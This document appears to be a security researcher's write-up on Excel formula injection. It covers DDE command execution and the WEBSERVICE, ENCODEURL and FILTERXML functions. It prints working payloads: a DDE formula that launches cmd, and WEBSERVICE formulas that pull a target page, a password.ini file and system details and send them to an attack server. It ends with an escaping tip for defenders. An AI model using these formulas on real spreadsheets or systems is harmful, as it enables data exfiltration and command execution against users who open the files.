



============================
Weaponizing Excel Webservice
============================

State of the art
================

Excel formulas
--------------

Did you know that Microsoft Excel has some functions that could be exploited
by malicious actors. I'm not talking about macros here, but plain old
formulas.

We are interested in formulas for two reasons. First of all it isn't blocked
by any anti-macro system, nor is it detected by any antivirus as being a bad
thing. Moreover there are more clever ways to use them than just send someone
else an XLS file.

Formula injection
-----------------

Many systems propose to create an Excel file from a CSV one, or a database in
order to produce a report. Those entries are rarely escaped so anyone
submitting a CSV with formulas in it can expect to see the formulas being
interpreted when the XLS is opened.

Furthermore people are more likely to trust a report they just generated than
a phishy XLS just received by email, so these injection techniques can lead
us to computers we couldn't touch before.

It seems the first mention of this was in an article by contextis_ in 2014.
It described two main ways to exploit Microsoft Excel using only formulas.

.. _contextis: https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/

DDE
---

Dynamic Data Exchange: an interprocess communication protocol. Ok, let's just
say that it allows us to execute any executable with any argument:

::

    =cmd|' /C calc'!A0

The executable is called when the case is evaluated, so when the sheet is
opened which is good. However the user will have lots of warnings when
openning it so unless we built a very good trust relationship this is hardly
exploitable.

Hyperlink
---------

Hyperlink allows us to open a URL in the webbrowser when the hyperlink cell
is clicked. The good point is that as the webbrowser is used we have access
to the cookies and can do CSRF attacks. We also don't have any restriction on
the port or anything so it is quite powerful combined with knowledge of the
infrastructure we want to attack.

But there is no real way to extract any information back to our attack
server, and we rely on the user clicking the cell and not realizing that
something bad may have happened when his browser opens on a page it
shouldn't.

So yeah, the situation was pretty dire, to the point where many companies_
considered that excel injection formulas were not worth fixing.

.. _companies: https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection

Webservice
==========

Then came Excel 2013. This release brought many very interesting functions,
including:

- WEBSERVICE(url)
- ENCODEURL(text)
- FILTERXML(xml, xpath)

The recent TEXTJOIN added in Excel 2016 also looks promising.

The one function we're particularly interested in is WEBSERVICE. This
function takes a URL, makes a GET request to recover its content and returns
this data as the content of the cell. And all that without ever asking for
any user interaction besides opening the sheet.

This is very powerful and I would like to share some use cases.

CSRF
----

The basic usage, just do a plain old call to the URL. The problem is that as
we are not using a browser it only works if the webservice isn't relying on
session cookies and needs only one GET request.

Information disclosure
----------------------

This is more interesting. As the content of the page is returned by the
function we can extract any data to one of our servers.

For the purpose of the test I will work with two servers running in local:

- 8000 is the target webservice
- 8001 is the attack server

Let's use the following function

::

    =webservice("http://127.0.0.1:8001/?c="
                & webservice("http://127.0.0.1:8000/"))

The '&' is the concatenation symbol in Excel. This formula makes two calls,
the first at the target webserver, the second at the attack server, passing
the content of the page as GET argument.

We see a password.ini, let's check it out:

::

    =webservice("http://127.0.0.1:8001/?c="
                & webservice("http://127.0.0.1:8000/password.ini")

System informations
-------------------

We can also get some informations about the system:

::

    =webservice("http://127.0.0.1:8001/"
                & "?v=" & info("osversion")
                & "&d=" & info("directory"))

Other ideas
-----------

It is also possible to use this for basic port scan or host discovery.

We could also extract data from within the spreadsheet if it is generated on
the server side with sensitive data.

Other functions are proposed such as FILTERXML that allows selection by XPATH
which widens the possibility. Don't forget that Excel has lots of text
manipulation functions too.

The sky's the limit!

.. image:: ../image/rainbowdash-flying.png
    :width: 60%

Limitations
-----------

I encountered some limitations while exploring this:

- The protocol has to be HTTP or HTTPS. It is possible that others are
  supported but I did not find one.

- In particular I did not find any way to access local files directly. Too
  bad.

- Some ports seem off-limit even if the protocol is HTTP, like 22

- The timout is huge and all requests are made sequentially. This means that
  it is impossible to do 65535 requests for a port scan, the user will have
  closed the frozen spreasheet long before completion.

- We cannot recover binary data as any NULL byte would not make it to the URL
  for exfiltration.

Conclusion
==========

I believe those attacks are relevant enough to consider Excel Formula
Injection a real vulnerability. Moreover I won't talk of CSV injection as
other websites do because this is not limited to CSV at all.

That said, if you build anything upon this drop me a mail, I'd be thrilled to
hear about it.

Last but not least, if you want to escape a field, just put a single quote as
first character. Excel will handle the rest just fine.

Images sources
--------------

- http://themajesticpony.deviantart.com/art/Applejack-raises-her-eyebrow-429862102

- http://www.pngmart.com/image/23093
